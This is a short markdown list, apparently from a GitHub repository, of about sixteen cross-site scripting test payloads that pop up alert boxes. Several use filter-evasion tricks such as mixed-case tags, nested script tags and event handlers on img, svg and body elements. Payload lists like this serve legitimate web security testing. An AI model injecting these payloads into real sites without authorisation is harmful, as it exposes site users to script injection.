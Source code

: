 # Payloads
## XXS Popup:

- <script>alert("XSS");</script>
- <script>alert(‘XSS’);</script>
- <script>alert(‘XSS’)</script>
- <<script>alert("XSS");//<</script>
- <sCripT>alert("XSS")</scRipt>
- <scr<script>ipt>alert('XSS')</script>
- <sCripT>alert('XSS')</scRipt>
- <img src=/ onerror="alert('XSS')"/>
- <img src=x onMouseOver=alert('XSS')>
- <svg/onload=eval("ale"+"rt")(\`XSS${alert\`XSS/\`}\`)>
- <img src='nevermind' onerror="alert('XSS');" />
- << script>alert("XSS");//<</ script>
- <svg/onload=alert('XSS')>
- div.innerHTML = '<script deferred>alert("XSS");</script>';
- <img src="aaa" onerror=alert('xxs')>
- <body onload="alert('XSS')">
